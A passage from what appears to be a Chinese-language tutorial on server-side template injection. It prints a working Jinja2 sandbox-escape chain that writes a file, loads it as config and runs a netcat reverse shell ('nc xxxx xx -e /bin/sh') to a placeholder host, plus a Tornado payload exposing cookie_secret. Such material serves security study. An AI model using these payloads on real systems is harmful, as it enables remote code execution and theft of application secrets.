 到时候我们就能通过 `config['SHELL']` 调用 system 方法了.

Jinja2 有沙盒机制，我们必须通过绕过沙盒的方式写入我们想要的文件，最终的Payload如下:

```python
\{\{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') \}\}
//写文件
\{\{ config.from_pyfile('/tmp/evil') \}\}
//加载system
\{\{ config['SHELL']('nc xxxx xx -e /bin/sh') \}\}
//执行命令反弹SHELL
```

\> \> [Python 沙盒逃逸备忘](https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/)


- Tornado

cookie_secret 是 handler.application.settings 的键值, handler 对应 RequestHandler， RequestHandler.settings 对应 self.application.settings，那么能直接通过 handler.settings 访问到 cookie_secret，Payload:

```python
?msg=\{\{handler.settings\}\}
```


### 语言特性

- Python

Python 最最经典的就是使用魔法方法，这里就涉及到Python沙盒绕过了，前面说过，模板的设计者也发现了模板的执行命令的特性，于是就给模本增加了一种沙盒的机制，在这个沙盒中你很难执行一般我们能想到函数，基本都被禁用了，所以我们不得不使用自省的机制来绕过沙盒。

- Java

java.lang包是java语言的核心，它提供了java中的基础类。包括基本Object类、Class类、String类、基本类型的包装类、基本的数学类等等最基本的类。

![](/assets/images/move/2019-09-03-17-07-10.png)
